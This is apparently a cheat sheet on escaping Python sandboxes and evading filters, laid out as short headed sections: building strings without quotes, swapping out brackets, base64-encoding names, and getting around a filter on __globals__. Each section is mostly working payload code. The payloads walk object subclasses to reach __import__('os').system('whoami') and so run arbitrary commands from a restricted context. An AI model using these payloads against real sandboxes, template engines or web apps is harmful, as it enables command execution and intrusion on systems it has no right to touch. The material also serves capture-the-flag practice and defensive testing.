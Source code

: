 ## Quotes are not present
```text
chr(102)+chr(108)+chr(97)+chr(103)
str().join(list(dict(fl=1,ag=2).keys()))
Or get a single character through dir(dir)[1][2], etc. and then splice it
```

## Filter brackets
 - Call the `__getitem__` function and replace it directly.
 - Call the `pop` function to replace.

```python
# Prototype
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')

# __getitem__() replaces brackets[]
''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').system('whoami')

# pop() replaces brackets[], and use them in combination with __getitem__()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('__import__')('os').system('whoami')
```

## base64 encoding

```python
import base64
base64.b64encode('__import__')
base64.b64encode('os')
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
```

## Filter __globals__
 - You can use `func_globals` to replace it directly.
 - `__getattribute__('__globa'+'ls__');`

```python
# The prototype is to call __globals__.
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')

# If __globals__ is filtered, it can be replaced directly with func_globals.
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['__builtins__']['__import__']('os').system('whoami')

# You can also bypass it by splicing strings.
''.__class__.__mro__[2].__subclasses__()[59].__init__.__getattribute__("__glo"+"bals__")['__builtins__']['__import__']('os').system
('whoami')
```
